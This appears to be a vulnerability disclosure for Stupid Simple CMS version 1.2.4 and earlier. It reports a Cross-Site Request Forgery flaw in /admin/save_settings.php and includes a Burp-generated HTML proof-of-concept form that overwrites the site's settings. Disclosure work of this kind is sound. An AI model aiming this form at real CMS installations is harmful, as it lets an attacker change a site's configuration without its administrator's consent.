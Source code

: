 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4


Stupid Simple CMS v1.2.4 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /save_settings.php

![1](https://github.com/Xin246/cms/assets/160984304/afac74e7-d10f-477a-bb7f-f36f6ee5d7bf)

poc:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/admin/save_settings.php" method="POST">
      <input type="hidden" name="site&#45;title" value="Stupid&#32;Simple&#32;CMS&#32;123" />
      <input type="hidden" name="copyright&#45;info" value="Codelyfe&#46;github&#46;io" />
      <input type="hidden" name="website&#45;url" value="&#46;&#46;&#47;" />
      <input type="hidden" name="greeting&#45;txt" value="Join&#32;the&#32;virtual&#32;story&#32;today&#33;" />
      <input type="hidden" name="meta&#45;txt&#45;desc" value="Stupid&#32;simple&#32;CMS&#32;made&#32;for&#32;bloggers&#46;" />
      <input type="hidden" name="meta&#45;img" value="https&#58;&#47;&#47;image&#45;url&#46;com&#47;duck&#46;png" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/Xin246/cms/assets/160984304/90053447-da5e-478b-b679-381e849dbc4b)


successed

![3](https://github.com/Xin246/cms/assets/160984304/16fa763b-71eb-4136-99e0-50903a77c69d)
